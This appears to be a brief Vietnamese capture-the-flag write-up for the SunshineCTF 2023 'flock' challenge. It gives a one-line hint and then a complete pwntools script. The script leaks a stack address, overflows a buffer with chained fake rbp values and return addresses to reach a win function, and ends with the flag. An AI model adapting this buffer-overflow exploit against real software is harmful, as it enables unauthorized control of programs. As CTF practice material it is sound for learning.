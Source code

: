 bài này khá dài nhưng mà ko khó lắm, ở mỗi hàm sẽ check rbp là địa chỉ hàm tiếp theo, nên hãy debug nhiều lần để set up rbp 

```python
from pwn import *

# p = process('./flock')

p = remote('chal.2023.sunshinectf.games', 23002)

exe = ELF('./flock')

# gdb.attach(p, gdbscript = '''
# b*0x0000000000401248
# c
# ''')

# input()

# 0x401276
p.recvuntil(b'At ')
stack = int(p.recvline()[:-1], 16)
rip = stack + 0xb0 - 0x10
rip1 = rip + 0x20
rip2 = rip1 + 0x20
rip3 = rip2 + 0x20
print(hex(stack))
print(hex(rip))
payload = b'a'*0x80 + p64(rip) + p64(0x401276) + b'a'*16 + p64(rip1) + p64(0x4012a0) + b'a'* 16 + p64(rip2) + p64(0x4012ca) + b'a'*16 + p64(rip3) + p64(0x4012f0) + b'a' * 8 + p64(0x00000000004011ba) 
p.send(payload)


p.interactive()

# sun{here_then_there_then_everywhere}
```
